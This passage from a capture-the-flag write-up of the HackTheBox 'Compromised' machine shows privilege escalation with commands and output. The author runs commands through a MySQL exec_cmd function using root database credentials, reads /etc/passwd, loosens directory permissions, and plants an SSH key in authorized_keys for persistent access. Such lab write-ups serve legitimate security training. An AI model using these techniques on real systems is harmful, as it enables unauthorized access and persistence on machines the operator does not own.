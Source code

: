 From that prompt I assume that the correct syntax will be `exec_cmd('command_here')` so lets try running the `id` command.

```sh
www-data@compromised:/var/www/html/shop/vqmod/xml$ mysql -u root --password=changethis -D mysql -e "SELECT exec_cmd('id')"
mysql: [Warning] Using a password on the command line interface can be insecure.
exec_cmd('id')
uid=111(mysql) gid=113(mysql) groups=113(mysql)\n\0\0...
```

Great! we have access to the `mysql` user, looking at the `/etc/passwd` file we can see that its home directory is `/var/lib/mysql` and it is assigned to a shell `/bin/bash`

```sh
root:x:0:0:root:/root:/bin/bash
...
sysadmin:x:1000:1000:compromise:/home/sysadmin:/bin/bash
mysql:x:111:113:MySQL Server,,,:/var/lib/mysql:/bin/bash
...
```

When I first did the box, I changed the permissions of the `/var/lib/mysql` directory so we can have a look at it using the `webwrap` shell, typing the command, since the box is already compromised so might as well use `chmod 777 /var/lib/mysql`.

```sh
drwxrwxrwx  9 mysql mysql     4096 Oct  2 18:30 .
drwxr-xr-x 43 root  root      4096 May 24 21:21 ..
lrwxrwxrwx  1 root  root         9 May  9 03:09 .bash_history -> /dev/null
drwx------  3 mysql mysql     4096 May  9 03:07 .gnupg
drwxrwxr-x  3 mysql mysql     4096 May  9 03:08 .local
lrwxrwxrwx  1 root  root         9 May 13 03:02 .mysql_history -> /dev/null
drwxrwxr-x  2 mysql mysql     4096 Sep  3 11:52 .ssh
-rw-r-----  1 mysql mysql       56 May  8 16:02 auto.cnf
....
drwxr-x---  2 mysql mysql    12288 May  8 16:02 sys
```

Running `ls -la /var/lib/mysql` we can see that there is a `.ssh` directory, if we go into that directory we will see the `authorized_keys` file, adding our public ssh key in that file will let us ssh into the box as `mysql`

```sh
www-data@compromised:/var/www/html/shop/vqmod/xml$ mysql -u root --password=changethis -D mysql -e "SELECT exec_cmd('echo ssh-rsa REDACTED kali@kali >> /var/lib/mysql/.ssh/authorized_keys')"
```
Before using `ssh` we need to change the permissions of the `/var/lib/mysql` directory back to its original form `chmod 700 /var/lib/mysql` using the `exec_cmd()` function. Now when we try to `ssh` we will be mysql user

```sh
kali@kali:~/Documents/HackTheBox/compromised$ ssh mysql@compromised.htb
Last login: Sat Oct  3 08:08:01 2020 from 10.10.1X.X
mysql@compromised:~$ id
uid=111(mysql) gid=113(mysql) groups=113(mysql)
mysql@compromised:~$
```
